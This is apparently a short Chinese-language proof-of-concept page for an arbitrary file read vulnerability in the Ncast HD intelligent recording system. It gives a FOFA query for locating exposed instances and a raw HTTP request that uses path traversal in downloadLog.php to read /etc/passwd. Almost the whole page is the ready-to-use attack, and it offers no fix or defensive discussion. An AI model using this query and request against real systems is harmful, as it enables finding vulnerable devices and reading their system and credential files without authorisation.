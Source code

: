 ## Ncast高清智能录播系统存在任意文件读取漏洞

## fofa
```
app="Ncast-产品" && title=="高清智能录播系统"
```

## poc
```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Host: xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close
```

![f16b573778c2032b1efded155edef6e1](../../images/4e73f0f0-e917-41f2-8b8a-faf0cc44a19d.png)
